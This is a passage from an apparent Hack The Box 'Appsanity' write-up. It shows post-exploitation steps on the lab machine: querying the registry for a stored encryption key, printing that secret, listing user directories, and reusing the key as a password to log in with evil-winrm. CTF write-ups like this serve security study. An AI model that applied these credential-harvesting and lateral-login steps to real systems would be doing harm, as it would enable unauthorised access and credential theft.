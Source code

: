 Reading this shows that it takes a key from the registry:

![](../../.gitbook/assets/htb-appsanity-image-20.png)

I used `reg query` to find this value:

```
C:\inetpub\ExaminationPanel\ExaminationPanel\bin\x86>reg query HKEY_LOCAL_MACHINE\Software\MedDigi
reg query HKEY_LOCAL_MACHINE\Software\MedDigi

HKEY_LOCAL_MACHINE\Software\MedDigi
    EncKey    REG_SZ    1g0tTh3R3m3dy!!
```

Checking the `C:\users` directory, I could find a few other users:

```
C:\inetpub\ExaminationPanel\ExaminationPanel\bin\x86>dir C:\users
dir C:\users
 Volume in drive C has no label.
 Volume Serial Number is F854-971D

 Directory of C:\users

10/31/2023  10:53 AM    <DIR>          .
10/31/2023  10:53 AM    <DIR>          ..
10/18/2023  06:08 PM    <DIR>          Administrator
09/24/2023  11:16 AM    <DIR>          devdoc
09/15/2023  06:59 AM    <DIR>          Public
10/18/2023  06:40 PM    <DIR>          svc_exampanel
10/17/2023  03:05 PM    <DIR>          svc_meddigi
10/18/2023  07:10 PM    <DIR>          svc_meddigiportal
               0 File(s)              0 bytes
               8 Dir(s)   3,894,304,768 bytes free
```

Using this password, I could `evil-winrm` in as the `devdocs` user:

![](../../.gitbook/assets/htb-appsanity-image-21.png)
